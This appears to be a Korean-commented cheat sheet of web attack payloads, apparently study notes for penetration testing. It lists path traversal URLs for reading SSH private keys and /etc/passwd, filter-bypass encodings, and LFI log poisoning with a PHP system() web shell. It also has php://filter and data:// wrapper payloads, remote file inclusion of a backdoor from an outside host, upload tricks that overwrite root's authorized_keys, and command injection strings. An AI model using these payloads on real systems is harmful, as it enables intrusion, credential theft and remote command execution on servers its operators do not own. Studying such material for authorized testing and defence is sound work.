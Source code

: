 # Directory Traversal (Path Traversal)
https://example.com/cms/login.php?language=en.html                           # language 파라미터로 특정 파일을 불러오는 정상 요청
https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa # 리눅스 사용자 SSH 개인키 접근
https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini       # Windows 시스템 설정 파일(win.ini) 접근

# 인코딩이 필요할때
1  ../../../../etc/passwd                                                       # 리눅스 사용자 계정 정보
2  %2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd                                       # '.'을 %2e로 인코딩하여 필터 우회
3  %252e%252e/%252e%252e/etc/passwd                                             # 이중 인코딩(Double Encoding)으로 필터 우회

# Local File Inclusion (LFI) - Log Poisoning
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log   # Apache access.log를 LFI로 불러오기
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>                                           # User-Agent에 PHP 코드 삽입(Log Poisoning)
../var/log/apache2/access.log&cmd=whoami                                                        # 삽입된 PHP 코드로 명령 실행

# PHP Wrappers
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php   # php://filter로 파일을 Base64로 인코딩하여 소스코드 노출
curl https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls  # data:// 래퍼로 Base64 인코딩된 PHP 코드 전달 후 ls 실행

# Remote File Inclusion (RFI)
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"       # 외부 서버의 악성 PHP 파일 로드 후 명령 실행

# File Upload Vulnerabilities
example.php                                                                                     # 정상 PHP 파일
example.pHP                                                                                     # 대소문자 변형으로 확장자 필터 우회
example.php.txt                                                                                 # 이중 확장자로 필터 우회
upload '../../../../../../../test.txt'                                                          # 업로드 경로를 벗어나 상위 디렉토리에 파일 저장
upload '../../../../../root/.ssh/authorized_keys'                                               # SSH 공개키 덮어써서 백도어 접속 가능

# Command Injection
;ifconfig                                                                                        # 세미콜론(;)으로 기존 명령 종료 후 ifconfig 실행
%3Bifconfig                                                                                      # 세미콜론(;)을 URL 인코딩한 버전
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell                                                 # PowerShell 환경 여부 및 실행 위치 확인

# POST 데이터에 명령어 삽입하여 필터 우회 후 실행
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive                                                              

